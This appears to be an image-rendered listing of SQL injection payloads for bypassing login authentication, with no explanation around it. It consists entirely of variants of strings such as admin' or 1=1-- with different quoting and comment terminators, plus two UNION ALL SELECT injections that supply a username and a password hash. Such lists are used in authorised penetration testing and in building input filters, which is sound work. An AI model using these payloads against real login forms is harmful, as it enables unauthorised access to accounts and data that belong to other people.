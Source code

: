     admin' or 1=1--
    admin' or 1=1#
    admin' or 1=1/*
    admin') or ('1'='1
    admin') or ('1'='1'--
    admin') or ('1'='1'#
    admin') or ('1'='1'/*
    admin') or '1'='1
    admin') or '1'='1'--
    admin') or '1'='1'#
    admin') or '1'='1'/*
    1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
    admin" --
    admin';-- azer
    admin" #
    admin"/*
    admin" or "1"="1
    admin" or "1"="1"--
    admin" or "1"="1"#
    admin" or "1"="1"/*
    admin"or 1=1 or ""="
    admin" or 1=1
    admin" or 1=1--
    admin" or 1=1#
    admin" or 1=1/*
    admin") or ("1"="1
    admin") or ("1"="1"--
    admin") or ("1"="1"#
    admin") or ("1"="1"/*
    admin") or "1"="1
    admin") or "1"="1"--
    admin") or "1"="1"#
    admin") or "1"="1"/*
    1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
